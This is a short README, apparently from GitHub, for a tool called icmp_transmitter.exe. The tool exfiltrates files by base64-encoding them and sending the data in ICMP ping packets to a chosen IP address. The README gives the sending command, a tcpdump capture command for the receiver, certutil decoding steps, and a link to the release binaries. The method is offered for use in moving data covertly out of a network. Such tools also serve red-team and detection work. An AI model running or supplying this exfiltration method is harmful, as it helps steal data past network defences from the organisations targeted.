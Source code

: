 # Data Ex-filteration over ICMP Tunnel

__icmp_transmitter.exe__ is an executable used to send files on one system to another using icmp ping packets. The tool first converts the file(an exe, image, document etc) to base64 encoded text. This will then send the ping requests each with 64 characters of data taken from the base64 encoded text file. The tools needs a packet capture softwares on the other side to capture and record all the ping packets as .pcap or .txt files. Use the parser.sh to quickly parse the pcap file and have the text file with base64 encoded data. Once this is done, use certutil to convert back the text file into respective file format.

### Usage:

```icmp_transmitter.exe "input_file_to_be_sent" "IP_address_to_be_sent"```

at the server end:
 
run tcpdump. Use the following command :

```sudo tcpdump -i eth0 icmp and icmp[icmptype]=icmp-echo -XX -vvv -w output.txt```

Use certutil to decode the base64 data to respective format

```certutil -decode "base_64_encoded_textfile" "file.extention"```

The files and source code can be downloaded from: https://github.com/NotSoSecure/icmp_tunnel_ex_filtrate/releases
